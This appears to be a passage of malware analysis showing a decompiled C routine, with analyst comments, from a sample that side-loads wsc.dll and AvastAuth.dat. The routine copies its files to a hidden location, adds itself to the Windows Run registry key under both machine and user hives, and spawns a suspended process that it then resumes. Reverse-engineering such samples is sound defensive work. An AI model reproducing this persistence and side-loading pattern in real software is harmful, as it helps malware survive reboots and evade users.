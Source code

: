 ```c
  GetModuleFileNameW(0,&local_b3c,0x208);
  FUN_10016909(&local_b3c,local_14,3,&local_d3c,0x100,&local_175c,0x100,&local_1b64,0x100);
  
  wsprintfW(&local_72c,L"%s%s",local_14,&local_d3c);
  wsprintfW(&local_155c,L"%s%s",&local_72c,L"wsc.dll");
  wsprintfW(&local_1354,L"%s%s",&local_72c,L"AvastAuth.dat");
  
  FUN_10007380(local_31c);
  SetFileAttributesW(local_31c,2);
  SetFileAttributesW(local_31c,2);
  CopyFileW(&local_b3c,local_524,0);
  CopyFileW(&local_155c,local_1964,0);
  CopyFileW(&local_1354,local_1d6c,0);
  uVar2 = GetSystemTimeAsFileTime((longlong *)0x0);
  modify_holdrand(uVar2);
  uVar3 = new_seedrand_value();
  seedvalue = (int)uVar3 % 899 + 100;
  wsprintfW(local_934,L"\"%s\" %d",local_524,seedvalue);

  local_c0 = L'S'; // Software\\Microsoft\\Windows\\CurrentVersion\\Run
  // ...Stackstring
  local_68 = L'n';

  local_66 = 0;
  uVar4 = 1;
  iVar1 = lstrlenW(local_934);
  // Adds our .exe to 0x80000002 => HKEY_LOCAL_MACHINE
  RegCreateKey(0x80000002,&local_c0,local_8,local_934,iVar1 * 2 + 2,uVar4);
  uVar4 = 1;
  iVar1 = lstrlenW(local_934);
  // Adds our .exe to 0x80000001 => HKEY_CURRENT_USER
  RegCreateKey(0x80000001,&local_c0,local_8,local_934,iVar1 * 2 + 2,uVar4);
  local_1c[0] = L'\0';
  local_1c[1] = L'\0';
  local_1c[2] = L'\0';
  local_1c[3] = 0;
  wsprintfW(local_1c,L" %d",seedvalue);
  lstrcatW(local_524,local_1c);
  memset(&local_d0,0,0x10);
  memset(local_114,0,0x44);
  local_114[0] = 0x44;
  local_e8 = 1;
  local_e4 = 1;
  // 1st variable = NULL => local_524 contains the info for execution
  // 2nd variable = commandline input
  // 3rd variable = NULL, no inheritence
  // 4th variable = NULL, no inheritence
  // 5th variable = NULL, no inheritence
  // 6th variable = 4, CREATE_SUSPENDED
  // 7th variable = NULL, use current environment block
  // 8th variable = local_114, STARTUPINFO
  // 9th varaible = local_d0, PROCESS_INFORMATION
  iVar1 = CreateProcessW(0,local_524,0,0,0,4,0,0,local_114,&local_d0);
  // If succeed, resume process
  if (iVar1 != 0) {
    ResumeThread(local_cc);
    CloseHandle(local_d0);
    CloseHandle(local_cc);
  }
  return 0;
}
```
